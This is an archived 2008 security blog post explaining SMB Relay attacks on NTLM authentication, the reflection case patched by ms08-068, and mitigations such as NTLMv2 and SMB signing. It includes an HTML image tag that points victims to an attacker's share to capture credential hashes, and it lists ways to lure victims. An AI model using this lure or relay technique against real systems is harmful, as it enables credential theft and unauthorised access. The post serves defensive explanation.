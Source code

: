 ```yaml
---
id: 122
title: 'ms08-068 &#8212; Preventing SMBRelay Attacks'
date: '2008-11-12T12:31:13-05:00'
author: 'Ron Bowes'
layout: revision
guid: 'http://www.skullsecurity.org/blog/?p=122'
permalink: '/?p=122'
---
```


Microsoft released ms08-068 this week, which fixes a vulnerability that's been present and documented since 2001. I'm going to write a quick overview of it here, although you'll probably get a better one by reading [The Metasploit Blog](http://blog.metasploit.com/2008/11/ms08-067-metasploit-and-smb-relay.html).

Keep in mind that there is a lot of fun stuff that can be done with the SMB protocol. I'm going to talk about a few different design flaws right now, and point out exactly what ms08-068 patches. Hang on, though, this is going to get somewhat technical. The payoff, however, is that this is incredibly interesting stuff, and I'm happy to clear up any technical confusion. Just leave me a comment or an email!

I have talked about how [Lanman and NTLM](http://www.skullsecurity.org/blog/?p=34) work (or fail to work) in the past, so I'll assume you've read that and just post a quick overview here. Basically, Lanman and NTLM will hash your password using their respective algorithms (and store the hashes on the system), then hash it again based on the server's 8-byte challenge. This second hash is the same for Lanman and NTLM -- it takes the hash already generated, splits it into three 7-byte chunks (padding it to 21 bytes), and encrypting the server challenge with each of those chunks. If an attacker already has access to the Lanman and NTLM hashes, then the game has already been won (the hashes can be directly used to log in).

The primary advantage to having a server challenge is to prevent pre-computed attacks (that is, it provides salt-like value to prevent rainbow tables-style precomputation attacks against the algorithm). Naturally, a malicious server can send a known challenge and generate tables based on that. This type of attack has been fixed in NTLMv2 (since the client provides part of the randomness).

A SMB Relay attack is a type of man-in-the-middle attack where the attacker asks the victim to authenticate to a machine controlled by the attacker, then relays the credentials to the target. The attacker forwards the authentication information both ways, giving him access. Here are the players in this scenario:

- The **attacker** is the person trying to break into the target
- The **victim** is the person who has the credentials
- The **target** is the system the attacker wants access to, and that the victim has credentials for

And here's the scenario (see the image at the right for a diagram):  
![](http://www.skullsecurity.org/blogdata/ms08-068-1.png)

1. Attacker tricks the victim into connecting to him; this is easy, I'll explain how later
2. Attacker establishes connection to the target, receives the 8-byte challenge
3. Attacker sends the 8-byte challenge to victim
4. Victim responds to the attacker with the password hash
5. Attacker responds to the target's challenge with the victim's hash
6. Target grants access to attacker

In the case of Metasploit, the attacker goes on to upload and execute shellcode, but that process isn't important, and it's discussed on the Metasploit blog posting.

Now, as an attacker, we have two problems: the victim needs to initiate a connection to the attacker, and the victim needs to have access to the target.

The first problem is easy to solve -- to initiate a session, send the user a link that goes to the attacker's machine. For example, send them to a Web site containing the following code:

```
<img src="\AttackerSHAREfile.jpg">
```

Their browser will attempt to connect to a share on the attacker called "SHARE", during which a session will be established. The victim's machine will automatically send the current credentials, hashed with whatever challenge is sent by the attacker (naturally, it's the target's challenge). This can be delivered to them through an email link, through a stored cross-site scripting attack, by some sneaky vandalism, or by any number of ways.

Other ways to do this include DNS poisoning, ARP spoofing, [NetBIOS poisoning](http://www.skullsecurity.org/blog/?p=6), and any number of other ways. Suffice to say, it's pretty easy to trick the victim.

The second trick is that the victim needs to have access to the target. This one is slightly more difficult, but it can happen in a number of ways:

- In a domain scenario, the user's domain account may have access to multiple machines, including the target
- In other scenarios, users are well known to synchronize their password between machines. The target may have the same password as the victim, which would make the attack work
- The target may be the *same physical machine as the victim*

That third point is the interesting one -- this can be used to exploit the computer itself! So, in that scenario, here are the modified steps (see the image at the right, although I think it's probably more confusing :) ):  
![](http://www.skullsecurity.org/blogdata/ms08-068-2.png)

1. Attacker tricks the victim into connecting to him
2. Attacker establishes connection back to the victim, receives the 8-byte challenge
3. Attacker sends the victim's 8-byte back
4. Victim responds to the attacker with the password hash that'll give the attacker access to the victim's own computer
5. Attacker responds to the victim's challenge with the victim's hash
6. Victim grants access to attacker

Hopefully that isn't too confusing. What it essentially means is that the victim will grant access to the attacker using its own credentials.

And this particular attack is what ms08-068 patches!

To put it another way: ms08-068 patches an attack (discovered in 2001) where a victim is tricked into giving an attacker access to connect to itself.

## Mitigation

I talked a lot about vulnerabilities in the SMB protocol. Unfortunately, ms08-068 only fixes one of them. The issue is that the others are design flaws and can't be fixed without breaking clients. That being said, even though Microsoft can't fix them, you can fix them yourself, more or less, at the cost of potentially breaking clients (these can be done with local/domain security policies or registry hacks; search for them to find information):

- Enable (and require) NTLMv2 authentication -- this will prevent pre-computed attacks, because the client provides part of the randomness
- Enable (and require) message signing for both clients and servers -- this will prevent relay attacks
- Install ms08-068 -- this will prevent a specific subset of relay attacks, where its relayed back to itself

Hope that helps!

And, as usual, if you have any questions feel free to track me down.

Ron